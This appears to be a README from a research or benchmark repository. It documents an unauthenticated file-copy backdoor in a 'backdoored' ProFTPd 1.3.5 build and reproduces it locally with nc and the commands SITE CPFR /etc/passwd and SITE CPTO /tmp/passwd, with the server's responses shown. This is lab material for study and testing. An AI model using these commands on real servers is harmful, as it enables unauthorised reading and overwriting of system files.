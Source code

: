 # ProFTPd 1.3.5

* Type : Forgotten check (Privileged commands available without authentication) + Remote code execution
* Affected version : 1.3.5

## Backdoor

Any unauthenticated user can use the commands `site cpfr` and `site cpto` to do arbitrary file copy within the host filesystem

## Triggering the backdoor

First, we need to start up the FTP server (e.g., with the _backdoored_ variant):

```console
$ ./backdoored/proftpd -n -c $PWD/proftpd.conf
```

In a separate terminal, we can trigger the backdoor:

```console
$ nc localhost 21  # connect to the FTP server
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [::ffff:127.0.0.1]
SITE CPFR /etc/passwd                 
350 File or directory exists, ready for destination name
SITE CPTO /tmp/passwd
250 Copy successful
QUIT
221 Goodbye.
```

Then, we can see the file was correctly copied:
```console
$ ll /tmp/passwd 
-rw-r--r--. 1 root root 1317 May 26 13:37 /tmp/passwd
```